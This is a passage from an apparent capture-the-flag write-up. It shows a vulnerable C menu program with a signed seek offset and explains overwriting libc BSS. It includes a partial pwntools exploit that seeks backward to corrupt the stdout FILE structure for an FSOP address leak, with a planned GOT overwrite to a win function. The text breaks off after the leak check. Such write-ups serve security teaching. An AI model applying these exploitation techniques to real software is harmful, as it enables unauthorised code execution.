 ```c
  if (g_cur + size > MEM_MAX) {
    puts("[-] Invalid size");
    return;
  }
  printf("Data: ");
  if (fread(g_buf + g_cur, sizeof(char), size, stdin) != size)
    exit(1);
  puts("[+] Done");
}

int main() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  puts("1. Seek\n2. Read\n3. Write");
  while (1) {
    switch (getval("> ")) {
      case 1: do_seek(); break;
      case 2: puts("You know what you wrote."); break;
      case 3: do_write(); break;
      default: return 0;
    }
  }
}
```

The type `off_t` is same with `__int64`, so `g_cur` can have negative value. `g_buf` is at binary BSS.

![2.png](2.png)

As written above, binary BSS is mapped at the address which is upper than `libc` and `ld`. Using this we can overwrite the memory at libc BSS.

I used stdout leak FSOP and overwrite the `strlen got` of libc as `win` function of binary, because libc has Partial RELRO.

```py
from pwn import *
choice = lambda idx: p.sendlineafter(b"> ", str(idx).encode())
def seek(pos):
    choice(1)
    p.sendlineafter(b"Position: ", str(pos).encode())
def write(size, data):
    choice(3)
    p.sendlineafter(b"Size: ", str(size).encode())
    p.sendafter(b"Data: ", data.ljust(size, b'\x00'))

while True:
    p = remote('localhost', 5000)
    # p = remote('54.78.163.105', 30374)
    libc_path = "./libc.so.6"
    libc = ELF(libc_path, False)

    write(8, b'A'*8)
    seek(-0x528e0)
    write(0x22, p64(0xfbad1800) + p64(0) * 3 + p16(0xf780))
    try:
        magic = u64(p.recv(8))
    except Exception:
        p.close()
        continue

    assert magic == 0xfbad1800
```